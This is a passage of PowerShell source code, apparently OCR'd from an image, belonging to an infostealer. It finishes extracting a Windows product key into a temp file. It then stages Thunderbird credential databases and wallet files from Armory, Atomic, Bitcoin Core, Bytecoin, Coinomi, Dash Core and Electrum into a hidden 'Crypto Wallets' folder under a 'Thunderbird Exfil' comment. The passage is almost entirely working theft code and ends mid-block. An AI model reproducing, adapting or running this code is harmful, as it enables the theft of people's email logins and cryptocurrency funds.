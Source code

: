         if (($i % 5) -eq 0 -and $i -ne 0) {
          $ProductKey = "-" + $ProductKey
        }
      }
      $ProductKey
    }
    $ProductKey = Get-ProductKey
    Get-ProductKey > $env:localappdata\temp\ProductKey.txt
	
	New-Item -Path "$env:localappdata\Temp" -Name "Crypto Wallets" -ItemType Directory -force | out-null
	$crypto = "$env:localappdata\Temp\Crypto Wallets"

    # Thunderbird Exfil
	
    $Thunderbird = @('key4.db', 'key3.db', 'logins.json', 'cert9.db')
    If (Test-Path -Path "$env:USERPROFILE\AppData\Roaming\Thunderbird\Profiles") {
    New-Item -Path "$crypto\Thunder" -ItemType Directory | Out-Null
    Get-ChildItem "$env:USERPROFILE\AppData\Roaming\Thunderbird\Profiles" -Include $Thunderbird -Recurse | Copy-Item -Destination "$crypto\Thunder" -Recurse -Force
    }
    # Crypto Wallets
    
    If (Test-Path -Path "$env:userprofile\AppData\Roaming\Armory") {
    New-Item -Path "$crypto\Armory" -ItemType Directory | Out-Null
    Get-ChildItem "$env:userprofile\AppData\Roaming\Armory" -Recurse | Copy-Item -Destination "$crypto\Armory" -Recurse -Force
    }
    
    If (Test-Path -Path "$env:userprofile\AppData\Roaming\Atomic") {
    New-Item -Path "$crypto\Atomic" -ItemType Directory | Out-Null
    Get-ChildItem "$env:userprofile\AppData\Roaming\Atomic\Local Storage\leveldb" -Recurse | Copy-Item -Destination "$crypto\Atomic" -Recurse -Force
    }
    
    If (Test-Path -Path "Registry::HKEY_CURRENT_USER\software\Bitcoin") {
    New-Item -Path "$crypto\BitcoinCore" -ItemType Directory | Out-Null
    Get-ChildItem (Get-ItemProperty -Path "Registry::HKEY_CURRENT_USER\software\Bitcoin\Bitcoin-Qt" -Name strDataDir).strDataDir -Include *wallet.dat -Recurse | Copy-Item -Destination "$crypto\BitcoinCore" -Recurse -Force
    }
    If (Test-Path -Path "$env:userprofile\AppData\Roaming\bytecoin") {
    New-Item -Path "$crypto\bytecoin" -ItemType Directory | Out-Null
    Get-ChildItem ("$env:userprofile\AppData\Roaming\bytecoin", "$env:userprofile") -Include *.wallet -Recurse | Copy-Item -Destination "$crypto\bytecoin" -Recurse -Force
    }
    If (Test-Path -Path "$env:userprofile\AppData\Local\Coinomi") {
    New-Item -Path "$crypto\Coinomi" -ItemType Directory | Out-Null
    Get-ChildItem "$env:userprofile\AppData\Local\Coinomi\Coinomi\wallets" -Recurse | Copy-Item -Destination "$crypto\Coinomi" -Recurse -Force
    }
    If (Test-Path -Path "Registry::HKEY_CURRENT_USER\software\Dash") {
    New-Item -Path "$crypto\DashCore" -ItemType Directory | Out-Null
    Get-ChildItem (Get-ItemProperty -Path "Registry::HKEY_CURRENT_USER\software\Dash\Dash-Qt" -Name strDataDir).strDataDir -Include *wallet.dat -Recurse | Copy-Item -Destination "$crypto\DashCore" -Recurse -Force
    }
    If (Test-Path -Path "$env:userprofile\AppData\Roaming\Electrum") {
    New-Item -Path "$crypto\Electrum" -ItemType Directory | Out-Null
    Get-ChildItem "$env:userprofile\AppData\Roaming\Electrum\wallets" -Recurse | Copy-Item -Destination "$crypto\Electrum" -Recurse -Force
    }
    If (Test-Path -Path "$env:userprofile\AppData\Roaming\Ethereum") {